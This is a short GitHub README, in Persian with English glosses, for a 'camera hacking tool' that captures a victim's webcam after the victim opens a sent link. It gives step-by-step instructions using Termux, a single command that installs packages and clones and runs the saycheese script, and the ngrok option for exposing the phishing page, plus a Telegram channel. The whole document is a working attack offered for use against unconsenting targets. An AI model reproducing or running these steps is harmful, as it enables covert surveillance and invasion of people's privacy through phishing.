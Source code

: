 # hackwebcam
ابزار هک دوربین با ارسال لینک به قربانی - Camera hacking tool by sending link to target


1- https://github.com/HACKGM/cam/blob/master/on-hotspot.png نقطه اتصال گوشی رو روشن کنید

2- Download termux ترموکس رو دانلود کنید

کد های زیر رو بزنید تا ابزار اجرا بشه
3- apt update && apt upgrade && pkg install wget php git openssl curl && git clone https://github.com/thelinuxchoice/saycheese && cd saycheese && bash saycheese.sh

سپس گزینه 2 یعنی همون
 ngrok
رو بزنید برای پورت فراوردینگ

canal telegram: T.ME/HACKGM
